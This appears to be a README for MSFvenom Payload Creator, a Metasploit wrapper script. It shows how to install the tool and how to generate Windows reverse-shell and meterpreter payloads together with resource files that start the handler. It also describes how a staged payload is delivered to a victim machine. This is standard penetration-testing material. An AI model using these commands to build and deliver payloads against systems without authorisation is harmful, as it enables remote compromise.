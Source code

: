 # MSFvenom payload creator

## Requirements

The Metasploit framework.

## Installation

MSFvenom Payload Creator is preinstalled in Kali. On other *nix, to install it:

    git clone https://github.com/g0tmi1k/mpc

Set execute permission on the `msfpc.sh` file:

    cd mpc/
    chmod +x msfpc.sh

Start her up with:

    ./msfpc.sh

## Usage

    $ msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>)
    (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>)
    (<VERBOSE>)

* TYPE is the `-f` switch in msfvenom
* DOMAIN/IP is the LHOST option
* PORT is the LPORT option
* CMD/MSF is the type of shell dropped once the payload is executed on the target system.
* BATCH/LOOP to generate multiple payloads (multiple OS platforms) with a single command. 

## Examples

### Drop cmd windows
A classic reverse shell payload (generating a payload with a `cmd` as the preferred shell for
Windows, setting the LHOST to the IP retrieved from the eth0 Ethernet interface of the Kali machine):

    $ msfpc cmd windows eth0
    
Two files are created, an executable payload by name of `windows-shell-staged-reverse-tcp-443.exe`, and a 
resource file named `windows-shell-staged-reverse-tcp-443-exe.rc`, useful for automating repetitive tasks in 
Metasploit. Resource scripts can chain series of Metasploit console commands and directly embed Ruby to do 
things such as call APIs, interact with objects in the database, and iterate actions.

### Drop msf windows

    $ msfpc msf windows eth0

The payload is now set to a `windows/meterpreter/reverse_tcp`. 
The associated resource file can be executed with:

    msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-443-exe.rc'

When the payload is executed, the stager will request for other parts of the payload to be
sent over to the target server. These parts of the payload will be sent by payload handler
and the complete staged payload is delivered to the victim machine.